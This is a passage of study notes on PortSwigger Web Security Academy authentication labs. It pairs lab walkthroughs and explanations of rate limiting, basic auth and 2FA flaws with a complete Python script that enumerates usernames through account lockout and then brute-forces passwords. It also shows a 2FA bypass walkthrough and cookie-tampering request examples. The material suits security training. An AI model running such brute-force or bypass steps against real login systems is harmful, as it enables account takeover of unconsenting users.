

##### Tutorial

1. Three failed logins lock an account; further attempts return `You have made too many incorrect login attempts`, while unknown usernames keep returning the normal error.
2. Phase 1: hammer each candidate username several times in a row. The username whose responses contain the lock message is valid.
3. Wait for the lock to reset (~1 minute), then brute-force that user's password. A response without an error message (or a 302) is the correct password.
4. Log in and open **My account**.

**Script:**

```python
#!/usr/bin/env python3
"""
Username enumeration via account lock (PortSwigger lab solver).

Lab logic:
  - 3 failed logins lock an account; further attempts against that account return
    "You have made too many incorrect login attempts" while unknown usernames
    keep returning the normal "Invalid username or password".
  - So hammer each candidate username several times in a row (Burp calls this a
    cluster bomb with Null payloads). The username whose responses contain the
    lock message is the valid one.
  - Wait for the lock to reset, then brute-force that user's password. A
    response without any error message (or a 302) is the correct password.

No hardcoded usernames, passwords or error strings — all come from files/flags.

Usage:
  python3 Username-enumeration-via-account-lock.py \
      --url https://<id>.web-security-academy.net/login \
      --cookie "session=..." \
      --usernames usernames.txt --passwords passwords.txt

  ... --repeats 5          # attempts per username (default 5)
  ... --wait 65            # seconds to wait for the lock to reset (default 65)
  ... --verbose
  ... --csv attempts.csv
  ... --proxy http://127.0.0.1:8080
"""
from __future__ import annotations

import argparse
import csv
import re
import sys
import time
from pathlib import Path
from urllib.parse import urlparse

try:
    import requests
    from requests import RequestException
except ImportError:
    print('error: pip3 install requests', file=sys.stderr)
    sys.exit(2)


def load_list(path: Path) -> list[str]:
    out, seen = [], set()
    for line in path.read_text(encoding='utf-8', errors='replace').splitlines():
        s = line.strip()
        if s and s not in seen:
            seen.add(s)
            out.append(s)
    return out


def norm(t: str) -> str:
    return re.sub(r'\s+', ' ', t or '').strip().lower()


def main() -> int:
    ap = argparse.ArgumentParser(
        description='Username enumeration via account lock.')
    ap.add_argument('--url', required=True)
    ap.add_argument('--cookie', default='')
    ap.add_argument('--usernames', default='usernames.txt')
    ap.add_argument('--passwords', default='passwords.txt')
    ap.add_argument('--user-field', default='username')
    ap.add_argument('--pass-field', default='password')
    ap.add_argument('--fixed-password', default='example',
                    help='password used while hammering usernames (default: example)')
    ap.add_argument('--repeats', type=int, default=5,
                    help='attempts per username (default 5)')
    ap.add_argument('--wait', type=float, default=65.0,
                    help='seconds to wait for the lock to reset (default 65)')
    ap.add_argument('--lock-regex', default=r'too many incorrect login attempts',
                    help='regex marking a locked account')
    ap.add_argument('--invalid-regex', default=r'invalid username or password',
                    help='regex marking a normal failed login')
    ap.add_argument('--user-agent', default='Mozilla/5.0 (AccountLock)')
    ap.add_argument('--proxy', default='')
    ap.add_argument('--delay', type=float, default=0.0)
    ap.add_argument('--timeout', type=float, default=20.0)
    ap.add_argument('--insecure', action='store_true')
    ap.add_argument('--all', action='store_true',
                    help='do not stop at the first valid username')
    ap.add_argument('--verbose', action='store_true')
    ap.add_argument('--csv', default='')
    args = ap.parse_args()

    usernames = load_list(Path(args.usernames))
    passwords = load_list(Path(args.passwords))
    if not usernames or not passwords:
        print('error: username/password wordlist is empty', file=sys.stderr)
        return 2

    s = requests.Session()
    s.headers.update({
        'User-Agent': args.user_agent,
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.9',
        'Content-Type': 'application/x-www-form-urlencoded',
    })
    if args.cookie:
        s.headers['Cookie'] = args.cookie

    p = urlparse(args.url)
    vhost = f'{p.scheme}://{p.netloc}'
    s.headers['Origin'] = vhost
    s.headers['Referer'] = vhost + '/login'

    proxies = {'http': args.proxy, 'https': args.proxy} if args.proxy else None
    verify = not args.insecure
    lock_re = re.compile(args.lock_regex, re.I)
    invalid_re = re.compile(args.invalid_regex, re.I)

    rows: list[tuple[str, str, str, int, str]] = []

    def post(user: str, pwd: str):
        try:
            r = s.post(args.url,
                       data={args.user_field: user, args.pass_field: pwd},
                       timeout=args.timeout, allow_redirects=False,
                       proxies=proxies, verify=verify)
        except RequestException as e:
            print(f'[!] request error ({user}) -> {e}', file=sys.stderr)
            time.sleep(1)
            return None
        if args.delay:
            time.sleep(args.delay)
        return r

    # ---------- PHASE 1: find the lockable (valid) username ----------
    print(f'[*] PHASE 1: {len(usernames)} usernames x {args.repeats} attempts '
          f'(fixed pw="{args.fixed_password}")', file=sys.stderr)
    valid: list[str] = []
    for i, u in enumerate(usernames, 1):
        locked = False
        for _ in range(args.repeats):
            r = post(u, args.fixed_password)
            if r is None:
                continue
            body = r.text or ''
            rows.append(('user', u, args.fixed_password, r.status_code,
                         'lock' if lock_re.search(norm(body)) else ''))
            if lock_re.search(norm(body)):
                locked = True
                break
        if locked:
            print(f'[+] LOCKED (valid username): {u}', file=sys.stderr)
            valid.append(u)
            if not args.all:
                break
        elif i % 10 == 0:
            print(f'[*] {i}/{len(usernames)}', file=sys.stderr)

    if not valid:
        print('[-] no lockable username found', file=sys.stderr)
        if args.csv:
            with open(args.csv, 'w', newline='', encoding='utf-8') as f:
                w = csv.writer(f)
                w.writerow(('phase', 'user', 'pass', 'status', 'note'))
                w.writerows(rows)
        return 1

    # ---------- wait for the lock to reset ----------
    print(f'[*] waiting {args.wait:.0f}s for the account lock to reset',
          file=sys.stderr)
    time.sleep(args.wait)

    # ---------- PHASE 2: crack the password ----------
    print(f'[*] PHASE 2: {len(passwords)} passwords for {valid}', file=sys.stderr)
    hits: list[tuple[str, str, int]] = []
    for u in valid:
        for pw in passwords:
            r = post(u, pw)
            if r is None:
                continue
            body = r.text or ''
            status = r.status_code
            rows.append(('pass', u, pw, status,
                         'lock' if lock_re.search(norm(body)) else ''))
            n = norm(body)
            if status in (301, 302, 303, 307, 308):
                print(f'[+] HIT {u}:{pw} status={status}', file=sys.stderr)
                hits.append((u, pw, status))
                break
            if not invalid_re.search(n) and not lock_re.search(n):
                print(f'[+] HIT {u}:{pw} status={status} (no error message)',
                      file=sys.stderr)
                hits.append((u, pw, status))
                break

    if args.csv:
        with open(args.csv, 'w', newline='', encoding='utf-8') as f:
            w = csv.writer(f)
            w.writerow(('phase', 'user', 'pass', 'status', 'note'))
            w.writerows(rows)
        print(f'[*] CSV: {args.csv}', file=sys.stderr)

    if hits:
        for u, pw, st in hits:
            print(f'HIT {u}:{pw} ({st})')
        return 0
    print('[-] password not found', file=sys.stderr)
    return 1


if __name__ == '__main__':
    sys.exit(main())
```

**How to run:**

```bash
python3 Username-enumeration-via-account-lock.py --url https://<id>.web-security-academy.net/login --usernames usernames.txt --passwords passwords.txt --cookie "session=..."
```

##### Reference

<details>
<summary>6. Authentication Vulnerabilities - Lab #7 Username enumeration via account lock | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=fT31xo1cUoM
Purpose: This lab is vulnerable to username enumeration. It uses account locking, but this contains a logic flaw. To solve the lab, we enumerate a valid username, brute-force this user's password, then access their account page.

</details>

<details>
<summary>7. Authentication Vulnerabilities - Lab #6 Broken brute-force protection, IP block | Short Version — Michael Sommer</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=BoA-ms_h3HY
Purpose: This video shows the lab solution of "Username enumeration via account lock" from Web Security Academy (Portswigger)

</details>

</details>

### User rate limiting

Another way websites try to prevent brute-force attacks is through user rate limiting. In this case, making to many login requests within a short period of time causes your IP address to be blocked. Typically, the IP can only be unblocked in one of the following ways:

- Automatically after a certain period of time has elapsed
- Manually by an administrator
- Manually by the user after successfully completing a CAPTCHA

user rate limiting is sometimes preferred to account locking due to being less prone to username enumeration and denial of service attacks. However, it is still not completely secure. As we saw an example of in an earlier lab, there are several ways an attacker can manipulate their apparent IP in order to bypass the block.

As the limit is based on the rate of HTTP requests sent from the user's IP address, it is sometimes also posible to bypass this defense if you can work out how to guess multiple passwords with a single request.

### HTTP basic authentication

Although faily old, its relative simplicity and ease of implementation means you might sometimes see HTTP basic authentication being used. In HTTP basic authentication, the client receives an authentication token from the server, which is constructed by concatenating the username and password, and encoding it in Base64. This token is stored and managed by the browser, which automatically adds it to the `Authorization` header of every subsequent request as follows:

```
Authorization: Basic base64(username:password)
```

### HTTP basic authentication - Continued

For a number of reasons, this is generally not considered a secure authentication method. Firstly, it involves repeatedly sending the user's login credentials with every request. Unless the website also implements HSTS, user credentials are open to being captured in a man-in-the-middle attack.

In addition, implementations of HTTP basic authentication often don't support brute-force protection. As the token consists exclusively of static values, this can leave it vulnerable to being brute-forced.

HTTP basic authentication is also particularly vulnerable to session-related exploits, notably CSRF, against which it offers no protection on its own.

In some cases, exploiting vulnerable HTTP basic authentication might only grant an attacker access to a seemingly uninteresting page. However, in addition to providing a futher attack surface, the credentials exposed in this way might be reused in other, more confidential contexts.

## Vulnerabilities in multi-factor authentication

In this section, we'll look at some of the vulnerabilities that can occur in multi-factor authentication mechanisms. We've also provided several interactive labs to demonstrate how you can exploit these vulnerabilities in multi-factor authentication.

Many websites rely exclusively on single-factor authentication using a password to authenticate users. However, some require users to prove their identity using multiple authentication factors.

## Vulnerabilities in multi-factor authentication - Continued

Verifying biometric factors is impractical for most websites. However, it is increasingly common to see both mandatory and optional two-factor authentication (2FA) based on *something you know* and *something you have*. This usually requires users to enter both a traditional password and a temporary verification code from an out-of-band physical device in their possession.

While it is sometimes possible for an attacker to obtain a single knowledge-based factor, such as a password, being able to simultaneously obtain another factor from an out-of-band source is considerably less likely. For this reason, two-factor authentication is demonstrably more secure than single-factor authentication. However, as with any security measure, it is only ever as secure as its implementation. Poorly implemented two-factor authentication can be beaten, or even bypassed entirely, just as single-factor authentication can.

It is also worth noting that the full benefits of multi-factor authentication are only achieved by verifying multiple *different* factors. Verifying the same factor in two different ways is not true two-factor authentication. Email-based 2FA is one such example. Although the user has to provide a password and a verification code, accessing the code only relies on them knowing the login credentials for their email account. Therefore, the knowledge authentication factor is simply being verified twice.

### Two-factor authentication tokens

Verification codes are usually read by the user from a physical device of some kind. Many high-security websites now provide users a dedicated device for this purpose, such as the RSA token or keypad device that you might user to access your online banking or work laptop. In addition to being purpose-built for security, these dedicated devices also have the advantage of generating the verification code directly. It is also common for websites to use a dedicated mobile app, such as Google Authenticator, for the same reason.

On the other hand, some websites send verification codes to a user's mobile phone as a text message. While this is technically still verifying the factor of "something you have", it is open to abuse. Firstly, the code is being transmitted via SMS rather than being generated by the device itself. This creates the potential for the code to be intercepted. There is also a risk of SIM swapping, whereby an attacker fraudlently obtains a SIM card with the victim's phone number. The attacker would then receive all SMS messages sent to the victim, including the one containing their verification code.

### Bypassing two-factor authentication

At times, the implementation of two-factor authentication is flawed to the point where it can be bypassed entirely.

If the user is first prompted to enter a password, and then prompted to enter a verification code on a separate page, the user is effectively in a "logged in" state before they have entered the verification code. In this case, it is worth testing to see if you can directly skip to "logged-in only" pages after completing the first authentication step. Occasionally, you will find that a website doesn't actually check whether or not you completed the second step before loading the page.

##### Lab: 2FA simple bypass

This lab's two-factor authentication can be bypassed. You have already obtained a valid username and password, but do not access to the user's 2FA verification code.

<details>
<summary>Lab details, screenshots & walkthrough 0.6</summary>

To solve the lab, access Carlos's account page.

- Your credentials: wiener:peter
- Victim's credentials carlos:montoya

**Screenshots:**















##### Tutorial

1. Log in with `wiener:peter`. After the first step you land on the 2FA verification page — you are effectively already authenticated.
2. Before entering the 2FA code, browse directly to a logged-in-only page such as `/my-account?id=carlos`. The server does not re-check the second factor, so Carlos's account page loads.
3. The lab is solved once Carlos's account page is displayed.

##### Reference

<details>
<summary>8. Authentication Vulnerabilities - Lab #2 2FA simple bypass | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=2WpBVanEn3M
Purpose: This lab's two-factor authentication can be bypassed. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, we access Carlos's account page.

</details>

<details>
<summary>9. 2FA simple bypass| Short Version — Michael Sommer</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=V-Ak7kiOQI4
Purpose: This video shows the lab solution of "2FA simple Bypass" from Web Security Academy (Portswigger)

</details>

</details>

### Flawed two-factor verification logic

Somethimes flawed logic in two-factor authentication means that after a user has completed the intial login step, the website doesn't adequately verify that the same user is completing the second step.

For example, the user logs in with their normal credentials in the first step as follows:

```
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```
They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:

```
HTTP/1.1 200 OK
Set-Cookie: account=carlos

GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```
When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:

```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456
```
In this case, an attacker could log in using their own credentials but then change the value of the `account` cookie to any arbitrary username when submitting the verification code.

```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```
This is extremely dangerous if the attacker is then able to brute-force the verification code as it would allow them to log in to arbitrary user's accounts based entirely on their username. They would never need to know the user's password.

##### Lab: 2FA broken logic

This lab's two-factor authentication is vulnerable due to its flawed logic. To solve the lab, access Carlos's account page.

<details>
<summary>Lab details, screenshots & walkthrough 0.7</summary>

To solve the lab, access Carlos's account page.

- Your credentials: wiener:peter
- Victim's username: carlos

**Screenshots:**



